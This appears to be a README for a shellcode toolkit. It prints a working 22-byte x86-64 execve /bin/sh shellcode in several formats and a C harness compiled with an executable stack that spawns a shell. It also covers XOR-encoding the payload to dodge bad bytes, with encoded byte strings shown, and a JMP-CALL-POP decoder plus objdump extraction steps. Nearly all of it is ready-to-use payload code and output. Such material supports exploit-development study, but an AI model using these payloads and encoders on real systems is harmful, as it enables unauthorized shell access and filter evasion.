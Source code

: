 # Usage

## The shellcode python generator

It uses the simplest "execve /bin/sh" shellcode by default

```bash
python3 generate_shellcode.py

Shellcode: b'1\xf6VH\xbb/bin//shST_\xf7\xee\xb0;\x0f\x05'
Shellcode HEX: 31f65648bb2f62696e2f2f736853545ff7eeb03b0f05
Raw Shellcode: \x31\xf6\x56\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xf7\xee\xb0\x3b\x0f\x05
Shellcode Length: 22 bytes
```

## The C payload tester

### Compile
`gcc -o test_payload test_payload.c -z execstack`

### Test
```bash
./test_payload               

$ id
uid=1000(xtk)...
```

## XOR key finder

This script helps to avoid specified badbytes by static XOR key encoding. 
It looks for appropriate XOR key to fit specified badbytes

### Usage

```bash
$ python3 xor_key_finder.py

Found valid XOR key: 0x0d
Encoded shellcode:
\x3c\xfb\x5b\x45\xb6\x22\x6f\x64\x63\x22\x22\x7e\x65\x5e\x59\x52\xfa\xe3\xbd\x36\x02\x08
0x3c,0xfb,0x5b,0x45,0xb6,0x22,0x6f,0x64,0x63,0x22,0x22,0x7e,0x65,0x5e,0x59,0x52,0xfa,0xe3,0xbd,0x36,0x02,0x08
3cfb5b45b6226f646322227e655e5952fae3bd360208
...
Found valid XOR key: 0xaa
Encoded shellcode:
\x9b\x5c\xfc\xe2\x11\x85\xc8\xc3\xc4\x85\x85\xd9\xc2\xf9\xfe\xf5\x5d\x44\x1a\x91\xa5\xaf
0x9b,0x5c,0xfc,0xe2,0x11,0x85,0xc8,0xc3,0xc4,0x85,0x85,0xd9,0xc2,0xf9,0xfe,0xf5,0x5d,0x44,0x1a,0x91,0xa5,0xaf
9b5cfce21185c8c3c48585d9c2f9fef55d441a91a5af
...
```

## XOR payload decoder assembly

This assembly decodes XOR endcoded shellcode and uses JMP-CALL-POP technique to dynamically find the address of the payload in a position-independent manner, ensuring the decoder works regardless of where the code is loaded in memory.

### Usage

```bash
nasm -f elf64 -o shellcode.o XOR_decoder.nasm
ld -o shellcode shellcode.o
```

Let's get the RAW payload using:
```bash
objdump -d shellcode|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

